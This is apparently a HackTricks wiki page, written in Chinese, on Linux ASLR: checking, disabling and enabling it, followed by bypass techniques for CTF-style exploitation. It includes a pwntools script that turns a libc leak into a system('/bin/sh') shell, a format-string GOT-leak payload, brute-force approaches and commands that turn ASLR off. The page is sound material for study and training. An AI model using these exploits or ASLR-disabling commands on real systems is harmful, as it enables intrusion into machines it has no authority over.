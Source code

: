 # ASLR

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

## 基本信息

**地址空间布局随机化 (ASLR)** 是一种在操作系统中使用的安全技术，用于 **随机化系统和应用程序进程使用的内存地址**。通过这样做，它使攻击者预测特定进程和数据（如堆栈、堆和库）的位置变得更加困难，从而减轻某些类型的漏洞，特别是缓冲区溢出。

### **检查 ASLR 状态**

要 **检查** Linux 系统上的 ASLR 状态，可以从 `/proc/sys/kernel/randomize_va_space` 文件中读取值。存储在此文件中的值决定了应用的 ASLR 类型：

* **0**：没有随机化。一切都是静态的。
* **1**：保守随机化。共享库、堆栈、mmap()、VDSO 页面被随机化。
* **2**：完全随机化。除了保守随机化随机化的元素外，通过 `brk()` 管理的内存也被随机化。

您可以使用以下命令检查 ASLR 状态：
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **禁用 ASLR**

要**禁用** ASLR，您需要将 `/proc/sys/kernel/randomize_va_space` 的值设置为 **0**。在测试或调试场景之外，通常不建议禁用 ASLR。以下是禁用它的方法：
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
您还可以通过以下方式禁用ASLR执行：
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **启用 ASLR**

要**启用** ASLR，您可以将值 **2** 写入 `/proc/sys/kernel/randomize_va_space` 文件。这通常需要 root 权限。可以使用以下命令启用完全随机化：
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **重启后的持久性**

使用 `echo` 命令所做的更改是临时的，并将在重启时重置。要使更改持久化，您需要编辑 `/etc/sysctl.conf` 文件，并添加或修改以下行：
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
在编辑 `/etc/sysctl.conf` 后，使用以下命令应用更改：
```bash
sudo sysctl -p
```
这将确保您的 ASLR 设置在重启后保持不变。

## **绕过**

### 32位暴力破解

PaX 将进程地址空间分为 **3 组**：

* **代码和数据**（已初始化和未初始化）：`.text`、`.data` 和 `.bss` —> `delta_exec` 变量中有 **16 位** 的熵。该变量在每个进程中随机初始化，并添加到初始地址。
* 通过 `mmap()` 分配的 **内存** 和 **共享库** —> **16 位**，称为 `delta_mmap`。
* **栈** —> **24 位**，称为 `delta_stack`。然而，它实际上使用 **11 位**（从第 10 字节到第 20 字节，包括），对齐到 **16 字节** —> 这导致 **524,288 个可能的真实栈地址**。

前面的数据适用于 32 位系统，减少的最终熵使得通过一次又一次地重试执行来绕过 ASLR 成为可能，直到利用成功完成。

#### 暴力破解思路：

* 如果您有足够大的溢出以容纳 **大 NOP 滑道在 shellcode 之前**，您可以在栈中暴力破解地址，直到流程 **跳过 NOP 滑道的某部分**。
* 如果溢出不大，并且利用可以在本地运行，另一种选择是 **在环境变量中添加 NOP 滑道和 shellcode**。
* 如果利用是本地的，您可以尝试暴力破解 libc 的基地址（对 32 位系统有用）：
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* 如果攻击远程服务器，您可以尝试**暴力破解`libc`函数`usleep`的地址**，传递参数10（例如）。如果在某个时刻**服务器响应多了10秒**，您找到了该函数的地址。

{% hint style="success" %}
在64位系统中，熵要高得多，这样是不可能的。
{% endhint %}

### 本地信息 (`/proc/[pid]/stat`)

进程的文件**`/proc/[pid]/stat`**始终对所有人可读，并且**包含有趣的**信息，例如：

* **startcode** & **endcode**：二进制文件**TEXT**的上下地址
* **startstack**：**栈**的起始地址
* **start\_data** & **end\_data**：**BSS**的上下地址
* **kstkesp** & **kstkeip**：当前**ESP**和**EIP**地址
* **arg\_start** & **arg\_end**：**cli参数**的上下地址
* **env\_start** & **env\_end**：**环境变量**的上下地址

因此，如果攻击者与被利用的二进制文件在同一台计算机上，并且该二进制文件不期望来自原始参数的溢出，而是来自读取此文件后可以构造的不同**输入**。攻击者可以**从此文件中获取一些地址并从中构造偏移量以进行利用**。

{% hint style="success" %}
有关此文件的更多信息，请查看[https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html)，搜索`/proc/pid/stat`
{% endhint %}

### 拥有一个泄漏

* **挑战在于提供一个泄漏**

如果您获得了一个泄漏（简单的CTF挑战），您可以从中计算偏移量（假设例如您知道您正在利用的系统中使用的确切libc版本）。这个示例利用提取自[**这里的示例**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak)（查看该页面以获取更多详细信息）：
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

利用缓冲区溢出，可以利用 **ret2plt** 从 libc 中提取一个函数的地址。检查：

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **格式字符串任意读取**

就像在 ret2plt 中一样，如果通过格式字符串漏洞有任意读取的能力，可以从 GOT 中提取 **libc 函数** 的地址。以下 [**示例来自这里**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
您可以在以下位置找到有关格式字符串任意读取的更多信息：

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

### Ret2ret & Ret2pop

尝试通过利用栈内的地址来绕过 ASLR：

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
